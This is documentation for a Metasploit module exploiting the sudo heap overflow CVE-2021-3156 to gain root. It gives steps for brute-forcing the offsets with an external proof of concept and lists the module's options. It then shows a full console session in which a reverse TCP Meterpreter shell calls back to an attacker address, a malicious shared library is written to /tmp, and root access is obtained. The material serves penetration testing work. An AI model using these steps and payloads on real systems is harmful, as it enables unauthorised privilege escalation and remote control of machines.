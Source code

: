 ## Vulnerable Application

A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
to gain elevated privileges. The vulnerability was interested in July of 2011 and affects version 1.8.2
through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. The technique used by this
implementation leverages the overflow to overwrite a `service_user` struct in memory to reference an attacker
controlled library which results in it being loaded with the elevated privileges held by sudo.

### Manual Target

The exploit requires a number of lengths / offsets to function correction. The manual target can be used to specify
these values if they are known. To identify the values, use the `brute.sh` script from the original PoC repository at
[blasty/CVE-2021-3156][1].

On the target system, the rough steps include:

1. Clone the repository, install necessary build tools and GNU parallel (`sudo apt-get install parallel` on Debian-based
  systems)
1. Do: `make brute`
1. Do: `./brute.sh ...` with the desired options to bruteforce, (see the [README.md][2])
1. Wait for the bruteforce to complete, hopefully finding a successful option.

    Successful results will be written to the `success.txt` file. They will look something like this:
    
    ```
    ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
    
    using target: Manual ['/usr/bin/sudoedit'] (56, 57, 60, 200)
    ** pray for your rootshell.. **
    [+] bl1ng bl1ng! We got it!
    ```
    
    In this case `56, 57, 60, 200` are the required values.

1. From Metasploit
    1. Do: `set TARGET Manual` to specify the manual target
    1. Do: `set Lengths 56, 57, 60, 200` to set the explicit lengths (substitute the numbers as necessary)

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/local/cve_2021_3156_sudo`
1. Set the necessary options (target, payload, etc.)
1. Do: `run`

## Options

### WritableDir

A directory where you can write files. The necessary source code will be uploaded and compiled to here, along with the
payload library.

### Lengths
*This is an advanced option.*

The lengths to set as used by the manual target. See the "Manual Target" section.

## Scenarios

### Ubuntu 20.04.1 x64

```
msf6 exploit(multi/ssh/sshexec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.34:22 - Sending stager...
[*] Command Stager progress -  47.24% done (410/868 bytes)
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.34:45494) at 2021-02-03 17:14:42 -0500
[!] Timed out while waiting for command to return
[*] Command Stager progress - 100.00% done (868/868 bytes)

meterpreter > getuid
Server username: smcintyre @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/ssh/sshexec) > use exploit/linux/local/cve_2021_3156_sudo 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_3156_sudo) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2021_3156_sudo) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/local/cve_2021_3156_sudo) > set TARGET 1
TARGET => 1
msf6 exploit(linux/local/cve_2021_3156_sudo) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. sudo 1.8.31 is a vulnerable build.
[*] Writing '/tmp/CEmBxB3Sec.c' (3666 bytes) ...
[*] Writing '/tmp/libnss_X/P0P_SH3LLZ_ .so.2' (532 bytes) ...
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.34:45496) at 2021-02-03 17:15:29 -0500
[+] Deleted /tmp/CEmBxB3Sec.c
[+] Deleted /tmp/CEmBxB3Sec

meterpreter > getuid
Server username: root @ ubuntu (uid=1000, gid=1000, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

[1]: https://github.com/blasty/CVE-2021-3156
[2]: https://github.com/blasty/CVE-2021-3156/blob/da68f7c1a2961595a3226b903f1fc180b8824255/README.md#bruteforce-target-finding-experimental
